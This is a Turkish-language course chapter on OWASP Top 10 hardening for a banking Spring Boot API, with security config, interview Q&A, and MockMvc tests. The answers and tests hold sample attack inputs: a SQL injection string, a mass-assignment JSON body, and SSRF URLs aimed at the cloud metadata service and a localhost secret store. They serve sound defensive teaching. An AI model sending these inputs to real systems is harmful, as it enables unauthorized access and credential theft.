Tek bir kontrol asla yeterli değildir; gerçek güvenlik, bir katman düşse bir sonrakinin yakaladığı **defense-in-depth**'tir. Bir istek network'ten veriye kadar birçok savunmadan geçmeli:



Banking-grade `SecurityConfig`'i parça parça inceleyelim. Önce authorization — deny by default ile açıkça izin verilmeyen her istek authenticated olmak zorunda:

```java
http.authorizeHttpRequests(a -> a
    .requestMatchers("/v1/public/**").permitAll()
    .requestMatchers("/v1/auth/**").permitAll()
    .requestMatchers("/actuator/health").permitAll()
    .requestMatchers("/admin/**").hasRole("admin")
    .anyRequest().authenticated())
```

Ardından session ve token stratejisi — JWT API'da stateless çalış, CSRF'i devre dışı bırak (cookie session yok):

```java
    .csrf(c -> c.disable())
    .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
    .oauth2ResourceServer(o -> o.jwt(Customizer.withDefaults()))
```

Son olarak tarayıcı savunmaları — sıkı CSP, frame deny, HSTS ve referrer policy hepsi tek blokta:

```java
    .headers(h -> h
        .frameOptions(f -> f.deny())
        .httpStrictTransportSecurity(hsts -> hsts
            .includeSubDomains(true).maxAgeInSeconds(31536000).preload(true))
        .contentSecurityPolicy(csp -> csp
            .policyDirectives("default-src 'none'; frame-ancestors 'none'"))
        .referrerPolicy(r -> r.policy(ReferrerPolicy.NO_REFERRER)))
```

Tam config — header'lar, CORS ve permissions-policy dahil — aşağıda katlanmış duruyor.

<details>
<summary>Tam kod: BankingSecurityConfig (~47 satır)</summary>

```java
@Configuration
@EnableWebSecurity
@EnableMethodSecurity
public class BankingSecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(a -> a
                .requestMatchers("/v1/public/**").permitAll()
                .requestMatchers("/v1/auth/**").permitAll()
                .requestMatchers("/actuator/health").permitAll()
                .requestMatchers("/admin/**").hasRole("admin")
                .anyRequest().authenticated())
            .csrf(c -> c.disable())   // JWT API only
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
            .oauth2ResourceServer(o -> o.jwt(Customizer.withDefaults()))
            .headers(h -> h
                .contentTypeOptions(Customizer.withDefaults())
                .frameOptions(f -> f.deny())
                .httpStrictTransportSecurity(hsts -> hsts
                    .includeSubDomains(true)
                    .maxAgeInSeconds(31536000)
                    .preload(true))
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives("default-src 'none'; frame-ancestors 'none'"))
                .referrerPolicy(r -> r.policy(ReferrerPolicy.NO_REFERRER))
                .permissionsPolicy(p -> p.policy("geolocation=(), microphone=(), camera=()")))
            .cors(c -> c.configurationSource(corsConfig()));
        return http.build();
    }

    @Bean
    public CorsConfigurationSource corsConfig() {
        CorsConfiguration cors = new CorsConfiguration();
        cors.setAllowedOrigins(List.of(
            "https://app.mavibank.com",
            "https://m.mavibank.com"));
        cors.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
        cors.setAllowedHeaders(List.of("Authorization", "Content-Type", "X-Idempotency-Key"));
        cors.setMaxAge(3600L);
        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/**", cors);
        return source;
    }
}
```

</details>

---

## Önemli olabilecek araştırma kaynakları

- OWASP Top 10 2021
- OWASP Cheat Sheet Series
- CWE Top 25
- BDDK güvenlik tebliği
- KVKK rehber dökümanları
- PCI-DSS v4 ASV scan
- NIST SP 800-53
- ASVS (Application Security Verification Standard)

---

## Kendini Sına

Aşağıdaki soruları önce **cevaba bakmadan** kendi cümlelerinle yanıtlamayı dene — hepsi TR bank güvenlik mülakatlarının klasikleridir. Takıldığın soru olursa ilgili OWASP başlığına dön, sonra tekrar dene.

**S1. IDOR nedir, banking'de neden en yüksek severity risklerden biri ve nasıl önlenir?**

<details>
<summary>Cevabı göster</summary>

IDOR (Insecure Direct Object Reference), bir endpoint'in aldığı nesne ID'sinin gerçekten çağıran kullanıcıya ait olup olmadığını kontrol etmemesidir. `GET /accounts/12345` kendi hesabını gösteriyorsa, saldırgan `12346` deneyerek başkasının hesabına — bakiye, transaction, statement — erişir. Banking'de doğrudan müşteri finansal verisi sızdığı için highest severity kabul edilir.

En güçlü fix ownership'i sorgunun içine gömmektir: `findByIdAndOwnerId(id, userId)` ile kullanıcı başkasının satırını hiç çekemez. Controller'a ek `if` yerine bunu tercih et çünkü unutulması imkânsızdır. Kayıt yoksa `NOT FOUND` dön, `FORBIDDEN` değil — yoksa varlık bilgisini sızdırırsın.

</details>

**S2. Parameterized query SQL injection'ı neden kökten önler? String concatenation neden tehlikelidir?**

<details>
<summary>Cevabı göster</summary>

String concatenation'da girdi sorgu metnine karışır, dolayısıyla DB girdiyi parse ederken SQL yapısı olarak yorumlayabilir. `username = "admin' OR '1'='1"` girildiğinde tırnak sorgudan kaçar ve WHERE koşulu her zaman true olur.

Parameterized query'de (JdbcTemplate `?`, JPA `:param`) sorgu yapısı önceden derlenir; girdi ayrı bir parametre olarak, her zaman **veri** olarak bağlanır — asla parse edilip kod olarak çalıştırılmaz. Bu yüzden çözüm escape/sanitize değil, ayrıştırmadır: veri ile kod hiç birbirine değmez. Aynı prensip NoSQL, LDAP ve command injection için de geçerlidir.

</details>

**S3. Mass assignment nedir, banking'de nasıl istismar edilir ve nasıl önlenir?**

<details>
<summary>Cevabı göster</summary>

Mass assignment, request body'nin doğrudan bir entity'ye bind edilmesidir. Framework gövdedeki tüm alanları eşleştirdiği için saldırgan senin beklemediğin alanları da set eder: `{"name":"x","role":"admin","balance":1000000}` gönderince `role` ve `balance` yazılır ve sessiz privilege escalation olur.

Çözüm entity'yi API'ya asla açmamaktır. Sadece izin verilen alanları taşıyan bir DTO/record kullan (`CreateAccountRequest(name, currency)`), validation ekle ve entity'yi servis katmanında elle kur. Böylece dışarıdan sadece açıkça izin verdiğin alanlar yazılabilir.

</details>

**S4. Defense-in-depth nedir, banking'de neden tek bir kontrol yeterli değildir?**

<details>
<summary>Cevabı göster</summary>

Defense-in-depth, güvenliği tek bir kontrole değil üst üste birden çok katmana yaymaktır: bir katman düşerse bir sonraki yakalar. Banking'de tipik zincir network segmentasyon → WAF/rate limit → authentication → authorization (ownership) → input validation → encrypted data'dır.

Tek kontrol yetmez çünkü her savunmanın bir baypası vardır: allowlist DNS rebinding'e, IP block redirect'e, WAF yeni payload'a açık kalabilir. SSRF savunması bunun en net örneğidir — allowlist + private IP block + resolve-once + IMDSv2 + network policy birlikte durunca güvenli olur. Amaç mükemmel tek duvar değil, hata toleranslı katmanlı savunmadır.

</details>

**S5. IDOR fix'inde neden yetkisiz erişimde 404 dönülür, 403 değil?**

<details>
<summary>Cevabı göster</summary>

403 (Forbidden) "bu kaynak var ama sana yasak" der; 404 (Not Found) "böyle bir kaynak yok" der. Eğer var olan ama yetkisiz kayıtta 403, olmayan kayıtta 404 dönersen, saldırgan bu farktan hangi ID'lerin gerçekten var olduğunu haritalayabilir — account/resource enumeration.

Banking'de "yetkisiz" ile "yok" aynı yanıtı vermeli: ikisi de 404. Repo-level scoping (`findByIdAndOwnerId`) bunu doğal olarak sağlar; kayıt bulunamadığında ayrım yapmadan `AccountNotFoundException` → 404 fırlatırsın, existence bilgisi hiç sızmaz.

</details>

**S6. Cryptographic Failures kapsamında banking'de kart verisi (PAN) ve TC nasıl korunur?**

<details>
<summary>Cevabı göster</summary>

Kart verisi hem "in transit" hem "at rest" korunmalı. Transit'te TLS 1.2+ (banking'de 1.3) ve HSTS zorunlu; plain HTTP yasak. Rest'te PAN'ı plaintext kolonda tutmak yerine column encryption (AES-256-GCM, ECB değil) veya tokenization kullanılır — gerçek PAN yerine token saklanır.

Password için ayrı disiplin var: MD5/SHA1 değil, BCrypt/Argon2 gibi yavaş, salt'lı hash. Anahtarlar koda gömülmez, KMS/Vault'ta tutulur. Son olarak PAN/TC log'a veya URL query string'e asla düşmemeli — Logback masking pattern veya LogMaskingAspect ile baş/son iki hane hariç maskelenir. Bu KVKK ve PCI-DSS'in doğrudan gereğidir.

</details>

**S7. SSRF nedir, AWS metadata servisi neden hedeftir ve DNS rebinding'e karşı nasıl savunulur?**

<details>
<summary>Cevabı göster</summary>

SSRF (Server-Side Request Forgery), sunucuyu kandırıp onun adına, özellikle dışarıdan erişilemeyen internal hedeflere istek yaptırmaktır. "URL preview" gibi bir feature doğrulama yapmazsa saldırgan `http://169.254.169.254/latest/meta-data/...` verir; AWS metadata servisi IAM credential döndürür ve tüm bulut hesabı ele geçirilebilir. Diğer hedefler Consul, Redis, `file://` ve internal admin API'lardır.

DNS rebinding'de saldırgan kontrol ettiği domain'in DNS'ini oynatır: allowlist kontrolü sırasında public IP, gerçek istek sırasında `169.254.169.254` çözümlenir. Savunma: host'u bir kez resolve et, kontrolü o IP üzerinde yap ve isteği doğrudan aynı IP'ye gönder (hostname'i ikinci kez çözme). Buna allowlist + private IP block + AWS IMDSv2 + network segmentation eklenir — SSRF tek katmanla değil, defense-in-depth ile durur.

</details>

**S8. Insecure Design ile Security Misconfiguration arasındaki fark nedir? Birer banking örneği ver.**

<details>
<summary>Cevabı göster</summary>

Insecure Design (A04) tasarımın kendisindeki hatadır: kod kusursuz olsa bile akış baştan güvensizdir. Örnek: yüksek tutarlı transferi tek authorization ile geçirmek — hiçbir bug yok ama step-up authentication (OTP/biometric) tasarıma konmadığı için fraud kapısı açık. Çözüm design fazında STRIDE/threat modeling'dir.

Security Misconfiguration (A05) ise doğru tasarlanmış bir sistemin yanlış ayarlanmasıdır: açık kalmış `/actuator/env`, değiştirilmemiş default şifre, sızan stack trace. Kod ve tasarım güvenli olabilir ama konfigürasyon güvensizdir. Çözüm baseline'ı kod olarak tutmak (IaC, policy-as-code) ve CI'de otomatik doğrulamaktır. Kısaca: A04 "yanlış şeyi tasarladık", A05 "doğru şeyi yanlış kurduk".

</details>

---

## Tamamlama kriterleri

- [ ] IDOR'u tanımlayıp repo-level scoping fix'ini (`findByIdAndOwnerId`) ve neden 404 dönüldüğünü anlatabiliyorum
- [ ] Mass assignment'ın nasıl privilege escalation'a yol açtığını ve DTO çözümünü açıklayabiliyorum
- [ ] Parameterized query'nin injection'ı neden yapısal olarak imkânsız kıldığını 2 dakikada anlatabilirim
- [ ] 10 OWASP maddesini banking senaryolarıyla eşleştirebiliyorum (A01/A03 frequency, A02/A08 impact)
- [ ] Defense-in-depth katmanlarını (network → WAF → auth → authz → validation → crypto) sayabiliyorum
- [ ] SSRF savunmasının neden tek katmanla yetmediğini (allowlist + IP block + resolve-once + IMDSv2) açıklayabiliyorum
- [ ] Audit hash chain ile tamper detection mantığını ve banking retention gereksinimini biliyorum
- [ ] Insecure Design ile Security Misconfiguration farkını örnekle ayırt edebiliyorum
- [ ] (Opsiyonel) "Pratik yapmak istersen" bölümündeki testleri yazdım ve Claude-verify prompt'uyla doğrulattım

---

## Defter notları (10 madde)

1. "A01 Broken Access Control banking IDOR örnek + repo-level fix + 404 not 403: ____."
2. "A02 TLS 1.3 + KMS + PAN maskeleme banking üçleme: ____."
3. "A03 SQL injection parametrize fix neden kökten çözüm + @Valid + XSS escape: ____."
4. "A04 Insecure Design step-up auth + threat model STRIDE: ____."
5. "A05 Actuator + default cred + stack trace + security headers: ____."
6. "A06 dependency-check + SBOM + container scan supply chain: ____."
7. "A07 brute force + session fixation + cookie flags banking: ____."
8. "A08 Java deserialization + webhook HMAC (timing-safe) + audit hash chain: ____."
9. "A09 SIEM + 5-10 yıl retention + tamper-proof log banking: ____."
10. "A10 SSRF allowlist + private IP block + DNS rebind resolve-once + IMDSv2: ____."

```admonish success title="Bölüm Özeti"
- A01 Broken Access Control banking'in en yüksek severity riski: IDOR'u repo-level scoping (`findByIdAndOwnerId`) ile kökten kapat, yetkisiz erişimde 404 dön (403 değil), body'yi entity'ye bind etme (mass assignment)
- A03 Injection ailesinin tek çözümü veri ile kodu ayrıştırmak: parameterized query girdiyi asla parse etmez, aynı prensip NoSQL/LDAP/command için de geçerli
- A02/A08 en yüksek impact: TLS + AES-GCM + KMS + PAN maskeleme, ve webhook/mesaj integrity'sini timing-safe HMAC ile doğrula
- A04 tasarım hatası (step-up auth eksikliği), A05 konfigürasyon hatası (açık actuator) — ikisi farklı katman, farklı çözüm
- A10 SSRF ve genel güvenlik defense-in-depth ister: tek kontrol her zaman baypas edilebilir, katmanlar birlikte durur
- Deny by default, input validation önce, sensitive data log'a düşmesin — banking'de para kaybettiren üç temel disiplin
```

---

## Pratik yapmak istersen

Kavramları koda dökmek istersen aşağıdaki iki ek hazır: test yazma rehberi IDOR, SQL injection, security header, SSRF, audit chain ve webhook HMAC için örnek testler içerir; Claude-verify prompt'u ile yazdığın hardening'i banking-grade perspektiften A01'den A10'a denetletebilirsin.

<details>
<summary>Test yazma rehberi</summary>

Her önemli OWASP maddesi için en az bir test yaz. Aşağıdaki test'ler `MockMvc` ile saldırı senaryosunu reprodüksiyon eder ve savunmanın devrede olduğunu doğrular.

```java
@Test
void shouldRejectIdorAttempt() throws Exception {
    Account otherUserAccount = createAccountForUser(otherUserId);

    mockMvc.perform(get("/v1/accounts/" + otherUserAccount.getId())
        .header("Authorization", bearer(myToken)))
        .andExpect(status().isNotFound());   // Forbidden değil (info leak)
}

@Test
void shouldPreventSqlInjection() throws Exception {
    mockMvc.perform(post("/auth/login")
        .contentType(MediaType.APPLICATION_JSON)
        .content("""
            {"username": "admin' OR '1'='1", "password": "anything"}
            """))
        .andExpect(status().isUnauthorized());
}

@Test
void shouldEnforceSecurityHeaders() throws Exception {
    mockMvc.perform(get("/v1/public/info"))
        .andExpect(header().string("Strict-Transport-Security",
            containsString("max-age=31536000")))
        .andExpect(header().string("X-Content-Type-Options", "nosniff"))
        .andExpect(header().string("X-Frame-Options", "DENY"))
        .andExpect(header().exists("Content-Security-Policy"));
}

@Test
void shouldNotExposeStackTrace() throws Exception {
    mockMvc.perform(get("/v1/accounts/abc-invalid-uuid")
        .header("Authorization", bearer(myToken)))
        .andExpect(jsonPath("$.detail").value(not(containsString("Exception"))))
        .andExpect(jsonPath("$.detail").value(not(containsString("at com.bank"))))
        .andExpect(jsonPath("$.traceId").exists());
}

@Test
void shouldRejectSsrfToMetadataService() throws Exception {
    mockMvc.perform(post("/v1/preview")
        .param("url", "http://169.254.169.254/latest/meta-data/")
        .header("Authorization", bearer(token)))
        .andExpect(status().isForbidden());
}

@Test
void shouldRejectSsrfToLocalhost() throws Exception {
    mockMvc.perform(post("/v1/preview")
        .param("url", "http://localhost:8500/v1/kv/secret")
        .header("Authorization", bearer(token)))
        .andExpect(status().isForbidden());
}

@Test
void shouldMaskSensitiveDataInLogs() {
    String logMsg = LogMaskingAspect.maskSensitive(
        "User login: tc=12345678901, pan=4532148803436467");

    assertThat(logMsg).doesNotContain("12345678901");
    assertThat(logMsg).doesNotContain("4532148803436467");
}

@Test
void shouldVerifyWebhookSignature() throws Exception {
    String body = "{\"event\": \"payment.completed\"}";
    String signature = hmacSha256(body, webhookSecret);

    mockMvc.perform(post("/webhook/payment")
        .contentType(MediaType.APPLICATION_JSON)
        .header("X-Signature", signature)
        .content(body))
        .andExpect(status().isOk());

    mockMvc.perform(post("/webhook/payment")
        .contentType(MediaType.APPLICATION_JSON)
        .header("X-Signature", "invalid")
        .content(body))
        .andExpect(status().isUnauthorized());
}

@Test
void shouldDetectAuditTrailTampering() {
    auditService.log(userId, "LOGIN", ...);
    auditService.log(userId, "TRANSFER", ...);
    auditService.log(userId, "LOGOUT", ...);

    assertThat(auditService.verifyChain()).isTrue();

    // Tamper
    em.createNativeQuery("UPDATE audit_log SET action = 'FAKE' WHERE id = 2")
        .executeUpdate();

    assertThat(auditService.verifyChain()).isFalse();
}
```

> Tamamlama kriteri: her OWASP maddesi için en az bir test yeşil olmalı (minimum A01 IDOR, A03 SQLi, A05 header + stack trace, A08 webhook + audit chain, A10 SSRF). Süre: ~1 saat. Bir üst hedef için insecure deserialization (ysoserial gadget chain) ve OWASP ZAP baseline DAST scan'i de ekle.

</details>

<details>
<summary>Claude-verify prompt</summary>

Yazdığın hardening'i aşağıdaki prompt ile A01'den A10'a denetlet. Her madde için PASS / FAIL / EKSIK işaretlenmesini iste, kod yazdırma.

> OWASP Top 10 hardening'imi banking-grade kriterlere göre değerlendir. Her madde için PASS / FAIL / EKSIK işaretle, kanıt göster, kod yazma:
>
> A01 — Broken Access Control: Repo-level scoping (findByIdAndOwnerId)? @PreAuthorize method-level? Deny by default (anyRequest().authenticated())? CORS whitelist (wildcard yok)? Yetkisizde 404 not 403? Mass assignment yok (entity yerine DTO)?
>
> A02 — Cryptographic Failures: TLS 1.2+ only? HSTS header? AES-256-GCM (ECB değil)? BCrypt/Argon2 password? KMS/Vault keys? PAN/TC log masking?
>
> A03 — Injection: Parameterized SQL/JPA? Thymeleaf/React auto-escape? ProcessBuilder array (concat değil)? @Valid input?
>
> A04 — Insecure Design: Step-up authentication high-value? Password reset multi-factor? Cryptographically random ID? Rate limit auth'un ötesinde? Threat model dokümanı?
>
> A05 — Security Misconfiguration: Actuator lockdown? Default credentials değişti? Stack trace hide (ProblemDetail)? Security headers (HSTS, CSP, XFO, XCT)? Server header boş? Container non-root?
>
> A06 — Vulnerable Components: OWASP dependency-check CI'de? Trivy/Snyk container scan? SBOM (CycloneDX)? Patch politikası?
>
> A07 — Identification/Auth Failures: Strong password (12+, complexity, breach)? BCrypt strength 12 / Argon2? Brute force (5/15)? MFA high-value? Login'de session ID regen? Cookie Secure+HttpOnly+SameSite?
>
> A08 — Software/Data Integrity: Java deserialization YOK / ObjectInputFilter? Webhook HMAC (timing-safe)? Audit hash chain? Signed commits / build artifacts?
>
> A09 — Logging/Monitoring: Failed login loglanıyor? PII maskeli? SIEM real-time alert? 5-10 yıl retention? Tamper-proof (hash chain / WORM)?
>
> A10 — SSRF: URL allowlist? Private IP block? DNS rebind önlemi (resolve-once)? AWS IMDSv2? Network segmentation (NetworkPolicy)?

</details>